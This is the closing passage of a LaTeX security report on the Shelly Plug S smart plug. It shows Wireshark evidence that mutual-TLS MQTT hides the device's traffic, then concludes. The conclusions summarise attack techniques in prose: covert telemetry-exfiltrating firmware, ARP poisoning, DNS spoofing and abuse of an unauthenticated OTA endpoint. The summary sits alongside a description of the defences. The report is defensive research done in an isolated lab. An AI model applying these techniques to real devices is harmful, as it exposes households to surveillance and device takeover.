    
\includegraphics[width=0.95\linewidth]{Images/Fase3/WireMQTTS2.png}
    \caption{Detailed Wireshark view: the hex dump confirms that the TLS-encrypted payload is completely opaque — no MQTT topic names, power values, or relay states are visible in the captured data}
    \label{fig:wire_mqtts2}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\linewidth]{Images/Fase3/WireMQTTS3.png}
    \caption{Full Wireshark session overview: all communication between the device and the broker is classified as TLSv1.2 ``Application Data'', with no readable MQTT content exposed at the network layer}
    \label{fig:wire_mqtts3}
\end{figure}

\noindent The Wireshark analysis conclusively demonstrates the effectiveness of the MQTTS countermeasure:

\begin{itemize}
    \item \textbf{Protocol}: All packets are classified as \texttt{TLSv1.2} instead of \texttt{MQTT}.
    \item \textbf{Port}: Communication occurs on port \texttt{8883} (MQTTS) instead of \texttt{1883} (MQTT).
    \item \textbf{Payload}: The hex dump shows only encrypted ``Application Data'', with no readable MQTT topic names (\texttt{shellies/...}), power values, or relay states visible. In contrast, the Phase~1 Wireshark captures showed all telemetry data in plaintext.
    \item \textbf{Mutual Authentication}: Without a valid client certificate signed by the CA, no entity can connect to the broker or intercept the communication, even if they are on the same local network.
\end{itemize}

\noindent This combination of transport encryption and mutual authentication effectively neutralizes the eavesdropping and traffic manipulation threats demonstrated in Phase~1, while maintaining full backward compatibility with the standard Shelly MQTT topic structure for seamless integration with home automation platforms.

\chapter*{Conclusions}
\addcontentsline{toc}{chapter}{Conclusions}

This project has investigated the delicate balance between cost, usability, and security in the modern consumer Internet of Things (IoT) landscape, using the Shelly Plug S (Gen~1) as a concrete testing ground. By adopting both offensive and defensive perspectives, the research has traced an educational and engineering path that ranges from hardware reverse engineering to the deployment of cryptographic defenses on resource-constrained microcontrollers.

\medskip
\noindent The project journey began with the physical dissection of the device and the extraction of its binary firmware via the exposed UART interface. This initial phase highlighted a common paradigm in legacy consumer IoT: the reliance on cleartext protocols and unprotected storage to minimize development overhead and unit costs. The discovery of critical network credentials, cloud encryption keys, and device identifiers stored in plaintext within the flash memory, combined with the use of unencrypted MQTT and HTTP protocols, confirmed that the device lacked transport-layer and storage-level protection. 

\medskip
\noindent In the second phase, we translated these findings into a practical demonstration of risk by developing a custom firmware capable of silently exfiltrating telemetry data via UDP while maintaining behavioral camouflage via MQTT to prevent detection. The successful deployment of this firmware through network-level hijacking (ARP poisoning and DNS spoofing) and the direct abuse of the unauthenticated OTA endpoint demonstrated how easily an attacker within the local network can compromise device integrity. Crucially, the subsequent analysis of the exfiltrated power consumption profiles showed that the privacy risks associated with compromised smart plugs extend far beyond simple control interception, enabling the reconstruction of user habits, presence cycles, and appliance usage patterns through side-channel telemetry.

\medskip
\noindent The final stage of the project completed the engineering loop by implementing robust mitigation strategies directly on the target hardware. Despite the severe memory constraints of the ESP8266 SoC, we successfully migrated the system to MQTTS with mutual TLS (mTLS) authentication using ECC certificates, ensuring both transport confidentiality and strong bidirectional identity verification. Simultaneously, the implementation of an RSA-2048 signature verification scheme utilizing PKCS\#1 v1.5 padding and SHA-256 hashing successfully secured the OTA update interface, preventing any future execution of unauthorized code. Wireshark analysis validated the effectiveness of these interventions, showing that all previously cleartext telemetry data was rendered entirely opaque to unauthorized observers.

\medskip
\noindent Under an ethical perspective, this research highlights the importance of responsible disclosure practices and security awareness in the IoT ecosystem. Because the analyzed vulnerabilities affect a legacy, first-generation commercial product whose weaknesses are documented and largely mitigated in newer hardware iterations (such as the ESP32-based Gen~2 and Gen~3 lines), this work did not target unpatched zero-day vulnerabilities. Instead, the experimental activities were conducted within a fully isolated laboratory network on personally owned hardware, ensuring that no commercial cloud infrastructure or third-party users were impacted. In a broader context, this project reinforces the necessity for IoT manufacturers to coordinate with the cybersecurity research community, adopting transparent disclosure frameworks that protect consumers by ensuring patches are deployed before architectural vulnerabilities are publicly discussed.

\end{document}
